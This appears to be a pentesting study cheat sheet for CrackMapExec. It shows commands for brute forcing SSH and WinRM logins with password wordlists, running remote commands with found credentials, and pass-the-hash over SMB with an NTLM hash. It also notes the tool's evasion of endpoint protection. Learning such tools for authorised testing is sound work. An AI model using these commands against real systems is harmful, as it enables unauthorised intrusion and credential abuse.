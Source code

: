 # CME | CrackMapExec

"**_A swiss army knife for pentesting networks..._**" [ [Documentation](https://ptestmethod.readthedocs.io/en/latest/cme.html) ]
- CrackMapExec (a.k.a CME) is a `post-exploitation` tool that helps automate assessing the security of large Active Directory networks. 
- Built with stealth in mind, CME follows the concept of “Living off the Land”: abusing built-in Active Directory features/protocols to achieve it’s functionality and allowing it to evade most endpoint protection/IDS/IPS solutions.

**Supported Protocols:** `WinRM`, `MSSQL`, `SMB`, `SSH`, `LDAP`, `RDP`, `FTP`

**Do This:** https://academy.hackthebox.com/course/preview/using-crackmapexec

## Contents
- [Help](#help)
- [General Syntax](#general-syntax)
- [Examples](#examples)
- [WinRM](#winrm)
- [Pass-the-Hash (SMB)](#pass-the-hash-smb)

## Help
- For help and syntax, just issue the command: `crackmapexec` (or see below)
- [Cheat Sheet](https://www.stationx.net/crackmapexec-cheat-sheet/)
- [Cheat Sheet, old](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)

```
crackmapexec -h
crackmapexec winrm -h  # for help specific to the winrm protocol
crackmapexec smb -h    # for help specific to the smb protocol, etc.
```

## General Syntax

```
crackmapexec <protocol> <target(s)> -u username -p password
```

## Examples

```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'   # or...
crackmapexec <protocol> <target(s)> -u='username' -p='Admin!123@'
```

## SSH

```
crackmapexec ssh 192.168.61.129 -u root -p /usr/share/wordlists/rockyou.txt
# brute force an ssh login providing the username 'root' and a password list
```

## WinRM

### Syntax:

```
crackmapexec winrm [target ip] -u administrator -p /usr/share/.../unix_passwords.txt
```

You can use the `-u` switch to specify a file of possible usernames to try.  
- But, if we can get into the admin account, we don't have to do priv esc (so we test with one username, "administrator," first).
- You should get a green `[+]` if successful.

Look over the output (from the top down): 
- First line: you can see it actually connects to WinRM (wsman is an implementation of WinRM: windows management).

### Execute Commands:

If you successfully found login credentials, you can use `crackmapexec` to execute arbitrary Windows commands on the target machine. Examples:

```
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "whoami"
# You should get some happy feedback along with the results of your command execution.
crackmapexec winrm [target ip] -u administrator -p tinkerbell -x "systeminfo"
# This takes a while to run but provides a lot of information about your target system.
```

## Pass-the-Hash (SMB)

### Syntax:

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]"
```

This should indicated whether or not it works. 

If you get a green `[+]` and (`Pwn3d!`) then it works and you can try the execution of commands on the system...

```
crackmapexec smb [target ip] -u Administrator -H "[administrator ntlm hash; copy-paste]" -x "ipconfig"
```

It should give you visual feedback about the command execution. And there you go. Execute what you want.
